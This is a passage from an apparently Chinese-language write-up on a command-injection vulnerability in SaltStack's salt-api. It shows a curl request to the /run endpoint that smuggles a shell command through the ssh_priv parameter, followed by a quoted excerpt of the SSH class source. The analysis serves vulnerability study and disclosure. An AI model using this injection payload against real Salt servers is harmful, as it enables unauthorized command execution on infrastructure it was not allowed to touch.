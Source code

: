 ```
        )            #<------------------- calls

```

_prep_ssh() 函数设置参数，并初始化 SSH 对象。

三、触发漏洞

触发漏洞的请求如下：

```
curl -i $salt_ip_addr:8000/run -H "Content-type: application/json" -d '{"client":"ssh","tgt":"A","fun":"B","eauth":"C","ssh_priv":"|id>/tmp/test#"}' 

```

在这里，client 参数的值为 ssh，存在漏洞的参数是 ssh_priv。在内部，ssh_priv 参数在 SSH 对象初始化期间会用到，如下所示：

```
SSH(object): 
    """ 
    Create an SSH execution system 
    """ 

    ROSTER_UPDATE_FLAG = "#__needs_update" 

    def __init__(self, opts): 
        self.__parsed_rosters = {SSH.ROSTER_UPDATE_FLAG: True} 
        pull_sock = os.path.join(opts["sock_dir"], "master_event_pull.ipc") 
        if os.path.exists(pull_sock) and zmq: 
            self.event = salt.utils.event.get_event( 
                "master", opts["sock_dir"], opts["transport"], opts=opts, listen=False 
            ) 
        else: 
            self.event = None 
        self.opts = opts 
        if self.opts["regen_thin"]: 
            self.opts["ssh_wipe"] = True 
        if not salt.utils.path.which("ssh"): 
            raise salt.exceptions.SaltSystemExit( 
                code=-1, 
                msg="No ssh binary found in path -- ssh must be installed for salt-ssh to run. Exiting.", 
            ) 
        self.opts["_ssh_version"] = ssh_version() 
        self.tgt_type = ( 
            self.opts["selected_target_option"] 
            if self.opts["selected_target_option"] 
            else "glob" 
        ) 
        self._expand_target() 
        self.roster = salt.roster.Roster(self.opts, self.opts.get("roster", "flat")) 
        self.targets = self.roster.targets(self.opts["tgt"], self.tgt_type) 
        if not self.targets: 
            self._update_targets() 
        # If we're in a wfunc, we need to get the ssh key location from the 
        # top level opts, stored in __master_opts__ 
        if "__master_opts__" in self.opts: 
            if self.opts["__master_opts__"].get("ssh_use_home_key") and os.path.isfile( 
                os.path.expanduser("~/.ssh/id_rsa") 
            ): 
                priv = os.path.expanduser("~/.ssh/id_rsa") 
            else: 
                priv = self.opts["__master_opts__"].get( 
                    "ssh_priv", 
                    os.path.join( 
```